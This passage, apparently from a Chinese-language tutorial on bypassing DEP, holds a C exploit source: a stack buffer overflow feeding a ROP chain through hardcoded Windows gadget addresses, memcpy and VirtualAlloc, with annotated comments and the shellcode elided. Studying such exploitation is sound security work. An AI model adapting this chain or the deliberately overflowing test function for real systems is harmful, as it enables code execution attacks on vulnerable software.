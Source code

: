 	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"//VirtualAlloc retn 0x10
	
	"\xe6\x7e\x80\x7c"  //⑦ 0x7c807ee6  pop pop retn
	"\x99\xc8\xa7\x7c"  //④ 0x7ca7c899 push esp pop ebp retn 4
	"\xe7\x7e\x80\x7c"  //⑤ 0x7c807ee7  pop retn ，下移esp ，指向 memcpy在栈上的第二个参数
	
	"\x00\x00\x03\x00"//⑨ 可执行内存空间地址，转入执行用
	
	//-------------------------------  		memcpy 函数参数
	"\x00\x00\x03\x00"//可执行内存空间地址，memcpy复制用
	"\xbf\x7d\xc9\x77"//⑥0x77c97dbf push esp jmp eax
	"\xFF\x00\x00\x00"//shellcode 长度
	//-------------------------------
	"\xac\xaf\x94\x7c"//⑧ 0x7c94afac memcpy，结束时会有leave指令，将ebp赋值给esp，向低地址移动
	//mov esp,ebp                                            
	//pop ebp
	
	//------------------------------- memcpy 结束时会pop esi 和 edi，shellcode需要读写这两个地址
	"\x00\x00\x03\x00"//一个可以读地址
	"\x00\x00\x03\x00"//一个可以读地址
	
	//------------------------------- 
	//被复制进来的机器码，会执行XCHG eax,esp ， shellcode需要使用push ，所以 ESP 要修复，使用机器码94
	//使用 \x90 解决将shellcode 和 额外复制进来的代码，识别成一条指令问题。 
	"\x00\x90\x90\x94"
	"........" //shellcode 
	void test()
	{
	       char tt[176];
	       memcpy(tt,shellcode,450);
	} 
	int main() {
	       HINSTANCE hInst = LoadLibrary("shell32.dll");
	       char temp[200];
	       test();
	       return 0; 
	}
① DEP在溢出中被破坏，需要 push esp pop ebp retn 4 修复。

② VirtualAlloc 函数 ，retn 0x10

![virtualAlloc_1](dep/virtualAlloc_1.png)
